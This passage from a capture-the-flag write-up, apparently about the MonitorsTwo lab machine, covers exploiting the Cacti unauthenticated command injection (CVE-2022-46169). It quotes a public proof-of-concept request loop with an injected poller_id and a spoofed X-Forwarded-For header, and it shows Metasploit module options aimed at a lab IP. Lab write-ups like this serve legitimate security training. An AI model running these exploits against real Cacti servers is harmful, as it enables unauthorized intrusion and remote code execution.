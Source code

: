 It turns out that `polling_time` never comes back on MonitorsTwo, and thus this thinks it’s not vulnerable.

[This](https://github.com/sAsPeCt488/CVE-2022-46169) is another that looked nice, but it’s only looking for `cmd.php` in the response:

```

for id in range(args.n_ids):
    url = f'{args.target}/remote_agent.php'
    params = {'action': 'polldata', 'host_id': id,
              'poller_id': payload, 'local_data_ids[]': local_data_ids}
    headers = {'X-Forwarded-For': target_ip}

    r = requests.get(url, params=params, headers=headers)
    if('cmd.php' in r.text):
        print(f"[+] Exploit Completed for host_id = {id}")
        break

```

It also only brute forces on `host_id`, trying all the `local_data_ids` at once. The SonarSource article said that was possible, but I’m not sure it’s working here.

The most interesting failure I ran into is the Metasploit module. I’ll set it up, making sure to change the `SRVPORT` from the default 8080 (where I’ve already got Burp listening) to something else (8000):

```

msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > options

Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   HOST_ID                              no        The host_id value to use. By default, the module will try to bruteforce this.
   LOCAL_DATA_ID                        no        The local_data_id value to use. By default, the module will try to bruteforce this.
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS              10.10.11.211     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                                  metasploit.html
   RPORT               80               yes       The target port (TCP)
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI           /                yes       The base path to Cacti
   URIPATH                              no        The URI to use for this exploit (default is random)
   VHOST                                no        HTTP server virtual host
   X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwarded-For HTTP header. This should be resolvable to a hostna
                                                  me in the poller table.

   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or
                                       0.0.0.0 to listen on all addresses.
   SRVPORT  8000             yes       The local port to listen on.
```